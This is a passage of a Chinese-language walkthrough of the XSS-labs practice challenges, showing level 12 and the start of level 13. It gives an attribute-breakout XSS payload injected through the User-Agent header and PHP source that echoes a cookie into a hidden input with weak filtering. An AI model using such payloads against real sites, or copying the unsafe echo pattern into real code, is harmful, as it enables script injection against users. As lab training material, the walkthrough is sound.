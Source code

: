 ```php
```

### 测试过滤了

```js
<script " 'Oonn>
```

也没有显示输入的内容，

![image-20240819222704239](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819222704239.png)

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ua"  value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36" type="hidden">
```

但也有4个隐藏传参,

发现`t_ua`这个参数就是`useragent`

### User-Agent

```JS
click"type="button" onclick="alert(/xss/)
```

![image-20240819222748871](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819222748871.png)

## level13 Cookie

### 访问

http://192.168.70.10:8084/level13.php?keyword=good%20job!

![image-20240819223013551](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819223013551.png)

### 源代码

```php
<?php 
setcookie("user", "call me maybe?", time()+3600);
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
